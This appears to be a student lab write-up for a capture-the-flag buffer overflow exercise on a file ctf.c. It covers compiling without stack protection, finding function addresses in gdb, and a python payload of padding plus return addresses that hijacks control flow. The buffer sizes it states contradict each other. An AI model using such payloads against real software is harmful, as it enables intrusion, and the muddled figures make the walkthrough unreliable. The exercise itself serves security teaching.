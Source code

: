 # Lab 2
## 1. File ctf.c

**Summarizing**

    In this case, the buf[] array has 128 bytes, but the fgets() command reads up to 133 bytes.

=> We rely on 4 bytes to overwrite the address of the addition function with the address of the shell function

**Steps**
- Stackframes.

    ![alt text](./images/ctf-stackframe.png)

- Compile ctf.c
    >gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2

- Find the memory address of the myfunc() function.

    ![alt text](./images/ctf-1.png)

- Find the memory address of exit().

    ![alt text](./images/ctf-3.png)

   
 - According to the stackframes above, in vuln(), the buf[] array has 100 bytes and ebp is 4 bytes, total is 104 bytes to reach return address. 
 - Insert 104 'a' characters to reach the exact memory location of the func variable, then insert the address of the myfunc() function "0x0804851b" to execute the myfunc()function, add value for q, p, and return address.
    **Connect gdb and run again by this command:** 
    >r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'\xe0\x83\x08\x04'+'\x11\x12\x04\x08'+'\x62\x42\x64\x44')")

    ![alt text](./images/image-36.png)
